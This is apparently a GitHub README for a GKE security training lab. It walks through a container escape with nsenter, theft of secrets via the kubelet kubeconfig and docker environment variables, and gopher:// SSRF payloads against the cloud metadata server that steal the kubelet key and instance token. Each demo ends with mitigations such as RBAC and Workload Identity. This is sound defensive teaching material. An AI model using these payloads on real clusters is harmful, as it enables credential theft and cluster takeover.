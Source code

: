 # training-gke-security
This repository is for demo of training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: PodSecurityPolicy
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2)
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
  - RBAC
  - exec

## Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

#### Open Web Preview
<img src="https://github.com/rung/training-gke-security/raw/master/img/web-preview.png" width="320">

#### Input url (for testing)
```
https://www.google.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

#### Save the metadata
- ctrl+A and store all result to `metadata-script/metadata.txt` file
  - TODO: ADD image

#### Get node certificate
```bash
cd metadata-script

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node certificate
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
```
# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl describe pod | grep secret

# Get secret
kubectl get secret dummy-secret -o yaml
```

#### (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
cloud beta container node-pools update [NODEPOOL_NAME] \
  --cluster=[CLUSTER_NAME] \
  --workload-metadata-from-node=GKE_METADATA_SERVER
```

## (After this training) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
